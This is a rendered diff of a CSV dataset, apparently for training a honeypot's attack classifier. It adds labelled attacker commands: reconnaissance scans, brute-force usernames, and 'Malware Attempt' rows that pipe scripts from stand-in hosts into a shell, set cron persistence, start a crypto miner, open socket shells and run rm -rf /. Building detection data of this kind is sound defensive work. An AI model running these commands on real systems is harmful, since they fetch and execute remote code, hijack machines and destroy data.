

Before and after one commit to AmulyaSri-Code/Honeypotv2.03, a CSV file: ml/dataset.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/ml/dataset.csv
+++ b/ml/dataset.csv
+row 39: GET /admin/login.php | Reconnaissance
+row 40: nmap -sV 127.0.0.1 | Reconnaissance
+row 41: whois example.com | Reconnaissance
+row 42: dig any domain.com | Reconnaissance
+row 43: curl -I http://localhost | Reconnaissance
+row 47: USER postgres | Brute Force
+row 48: USER oracle | Brute Force
+row 105: wget -q -O - http://1.2.3.4/bc.sh | sh | Malware Attempt
+row 106: curl -s http://1.2.3.4/bot | bash | Malware Attempt
+row 107: nohup ./xmrig & | Malware Attempt
+row 108: crontab -e | Malware Attempt
+row 109: echo "*/5 * * * * curl http://x/sh | sh" | Malware Attempt
+row 110: wget -c http://malware.com/drop | Malware Attempt
+row 111: curl -O http://x.com/loader.so | Malware Attempt
+row 112: perl -e 'use Socket;' | Malware Attempt
+row 113: ruby -rsocket -e 'c=TCPSocket.new' | Malware Attempt
+row 114: rm -rf / | Malware Attempt
```
Also changed, not shown: 12 added rows elsewhere in this file, 6 other files.
